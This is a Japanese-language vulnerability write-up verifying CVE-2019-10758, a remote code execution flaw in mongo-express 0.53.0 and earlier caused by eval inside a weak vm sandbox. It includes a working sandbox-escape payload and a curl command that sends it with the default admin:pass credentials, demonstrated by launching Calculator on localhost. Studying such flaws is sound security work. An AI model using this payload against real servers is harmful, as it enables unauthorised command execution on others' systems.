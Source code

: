 ```yaml
---
title: CVE-2019-10758
date: 2019-01-11
tags: ["Vuln", "Security"]
excerpt: CVE-2019-10758の検証
---
```


## 概要
mongo-expressにおいて、`toBSON`メソッドを使用するエンドポイントを介し、リモートコード実行が可能となる脆弱性です。


まず始めに、こちらのコードから`~/checkValid`がユーザー入力を受け付けていることがわかります。

```javascript
// https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/router.js
const router = function (config) {
  // 省略
  const appRouter = express.Router();
  appRouter.post('/checkValid', mongoMiddleware, configuredRoutes.checkValid);
  return appRouter;
}
```

そしてPOSTリクエストとして入力された値をBSON形式に変換するため、以下で`toBSON`が呼び出されます。
```javascript
// https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/routes/document.js
var routes = function (config) {
  // 省略
  var exp = {};
  exp.checkValid = function (req, res) {
    var doc = req.body.document;
    try {
      bson.toBSON(doc);
    } catch (err) {
      console.error(err);
      return res.send('Invalid');
    }

    res.send('Valid');
  };
  return exp;
}
```

以下が`bson.js`におけるリモートコード実行の可能性がある部分です。

```javascript
// https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/bson.js
exports.toBSON = function (string) {
  // 省略
  vm.runInNewContext('doc = eval((' + string + '));', sandbox);

  return sandbox.doc;
};
```
ここでは関数`eval()`を使用しており、これは入力された文字列をそのままJavascriptとして実行します。
そしてvmモジュールによるサンドボックス化をうまく行えていないため、悪意あるスクリプトを実行できてしまう可能性があります。

## 環境
この脆弱性の影響を受けるバージョンは以下の通りです。

- mongo-express：〜0.53.0

## 攻撃手順
上記の通り、`bson.js`における`eval()`は、入力された文字列をそのまま実行します。  
そのため、以下のようなスクリプトをそのままPOSTデータとして`~/checkValid`に送信することにより、`child_process`を直接インポートしコマンドを実行させることができます。  
```javascript
this.constructor.constructor("return process")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator')
```


## 検証
今回は以下の環境で検証します。

```
docker run -p 27017:27017 -d mongo
npm install mongo-express@0.53.0
cd node_modules/mongo-express/ && node app.js
```

`http://localhost:8081/`にアクセスするとmongo-expressが立ち上がっています。

`http://localhost:8081/checkValid`に対し、先ほどのスクリプトを認証情報とともに送信することにより、リモートコード実行を試みます。  
なお、mongo-express起動時に流れるログの通り、デフォルトのbasicAuth認証情報は`admin:pass`となっているため、リクエスト時に送信するBase64は`YWRtaW46cGFzcw==`となります。

以下のcurlコマンドを実行すると、電卓機能が立ち上がり、リモートでのスクリプト実行が起きてしまっていることが確認できます。

```shell
curl 'http://localhost:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")'
```

## 参考URL
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10758
- http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2019-10758
- https://xz.aliyun.com/t/7066
- https://github.com/masahiro331/CVE-2019-10758
- https://snyk.io/vuln/SNYK-JS-MONGOEXPRESS-473215
- https://sec.thief.one/article_content?a_id=7bdcb78822fd4ecd2b2b8f35fbb6c09c

